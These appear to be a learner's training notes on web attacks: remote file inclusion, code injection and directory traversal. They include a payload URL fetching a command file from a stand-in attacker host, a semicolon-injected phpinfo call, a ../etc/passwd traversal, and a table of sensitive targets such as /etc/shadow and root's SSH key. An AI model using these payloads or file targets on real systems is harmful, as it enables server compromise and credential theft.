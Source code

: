### RFI
Remote File Inclusion is a technique to include remote files and into a vulnerable application by injecting an external URL into include function. One requirement it has is that the **allow_url_fopen** option need to be on. These vulnerabilities have a higher risk since it allows us to gain Remote Command Execution (RCE) on the server as well as disclosing sensitive info, [XSS](Exploitation.md#XSS) or [[DoS]]. 

For this you will need to have an already existing command hosted in another URL so you can input it into the include function similar to this **index.php?lang=http://attacker.thm/cmd.txt**

#### RCE
Is one of the most cool ways to gain control into a machine, by injecting code into the request by adding semicolons at the end of the input (PHP), we can then input another command that we want to be executed, basically allowing us to run whatever code we want at runtime (without sanitation of course). ej **index.php?user=admin;phpinfo();**

### Dot Dot slash
Is a vulnerability that allows an attacker to read operating system resources such as local files on the server. You can manipulate the URL to locate and access files or directories stores outside the application's root directory.

A directory traversal or dot dot slash attack can be done when an entry point is found, in some cases **get.php?file=** then you can take advantage of the **../** to move up a directory, going from wherever you were in the application file, one directory higher, possibly reaching root and traversing from there, so a full attack may look like **get.php?file=../../../../etc/passwd**. (literally the same for windows)

Some common OS files to test
#### file paths
|   |   |
|---|---|
|**Location**|**Description**|
|/etc/issue|contains a message or system identification to be printed before the login prompt.|
|/etc/profile|controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version|specifies the version of the Linux kernel|
|/etc/passwd|has all registered user that has access to a system|
|/etc/shadow|contains information about the system's users' passwords|
|/root/.bash_history|contains the history commands for root user|
|/var/log/dmessage|contains global system messages, including the messages that are logged during system startup|
|/var/mail/root|all emails for root user|
|/root/.ssh/id_rsa|Private SSH keys for a root or any known valid user on the server|
|/var/log/apache2/access.log|the accessed requests for Apache  webserver|
|C:\boot.ini|contains the boot options for computers with BIOS firmware|
